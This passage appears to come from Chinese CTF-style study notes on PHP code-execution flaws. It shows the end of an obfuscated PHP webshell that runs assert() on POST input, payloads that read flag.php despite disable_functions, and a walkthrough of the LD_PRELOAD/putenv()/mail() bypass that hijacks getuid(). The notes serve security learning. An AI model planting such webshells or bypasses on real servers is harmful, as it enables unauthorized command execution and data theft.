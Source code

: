 ```````
$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++; // T
$____.=$__;

$_=$$____;
@$___($_[_]); // ASSERT($_POST[_]);
?>
```

![image-20240228171307190](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171307190.png)

### disable_function
可以在phpinfo中查看disable_function，这个其实就是在后端的php.ini写了禁用的函数
![image-20240228171311777](09.%E5%91%BD%E4%BB%A4%E5%92%8C%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/image-20240228171311777.png)

#### 预期解法
因为我们不能利用命令执行去读取文件了。因此我们只能利用php的代码执行去读文件。常见的php读文件有
1. highlight_file()
2. file_get_contents()
3. show_source()
4. fgets()
5. file()
6. readfile()

#### 其他姿势

```php
c=$a=fopen("flag.php","r");while (!feof($a)) {$line = fgets($a);echo $line;}
copy("flag.php","flag.txt");
rename("flag.php","flag.txt");
```

### LD_PRELOAD
LD_PRELOAD是Linux系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。
一方面，可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面也可以以向别人的程序注入程序，从而达到特定的攻击目的。
通过环境变量LD_PRELOAD劫持系统函数，可以达到不调用PHP的各种命令执行函数（system()、exec() 等等）仍可执行系统命令的目的。
想要利用LD_PRELOAD环境变量绕过disable_functions需要注意以下几点：

1. 能够上传自己的 .so 文件
2. 能够控制 LD_PRELOAD 环境变量的值，比如 putenv() 函数
3. 因为新进程启动将加载 LD_PRELOAD 中的 .so 文件，所以要存在可以控制 PHP 启动外部程序的函数并能执行，比如mail() 、imap_mail() 、mb_send_mail() 和error_log() 函数等

一般而言，利用漏洞控制web启动新进程a.bin（即便进程名无法让我随意指定），新进程a.bin内部调用系统函数b()，b()位于系统共享对象c.so中，所以系统为该进程加载共享对象c.so，想办法在加载c.so前优先加载可控的c_evil.so，c_evil.so内含与b()同名的恶意函数，由于c_evil.so优先级较高，所以，a.bin将调用到c_evil.so内的b()而非系统的c.so内b()，同时，c_evil.so可控，达到执行恶意代码的目的。
基于这一思路，常见突破disable_functions限制执行操作系统命令的方式为：

1. 编写一个原型为 uid_t getuid(void); 的C函数，内部执行攻击者指定的代码，并编译成共享对象getuid_shadow.so ；
2. 运行 PHP 函数 putenv()( 用来配置系统环境变量 )，设定环境变量 LD_PRELOAD 为getuid_shadow.so ，以便后续启动新进程时优先加载该共享对象；
3. 运行 PHP 的mail() 函数， mail() 内部启动新进程 /usr/sbin/sendmail, 由于上一步 LD_PRELOAD 的作用，sendmail 调用的系统函数 getuid() 被优先级更好的 getuid_shadow.so 中的同名 getuid() 所劫持；
4. 达到不调用 PHP 的各种命令执行函数 (system() 、exec() 等等 )仍可执行系统命令的目的。

之所以劫持getuid()，是因为sendmail程序会调用该函数（当然也可以为其他被调用的系统函数），在真实环境中，存在两方面问题：

1. 某些环境中， web 禁止启用 sendmail 、甚至系统上根本未安装 sendmail ，也就谈不上劫持getuid() ，通常的 www-data 权限又不可能去更改 php.ini 配置、去安装 sendmail 软件；
2. 即便目标可以启用 sendmail ，由于未将主机名 (hostname 输出 )添加进 hosts 中，导致每次运行sendmail 都要耗时半分钟等待域名解析超时返回 ,www-data 也无法将主机名加入 hosts( 如127.0.0.1lamp\lamp.\lamp.com) 。
```````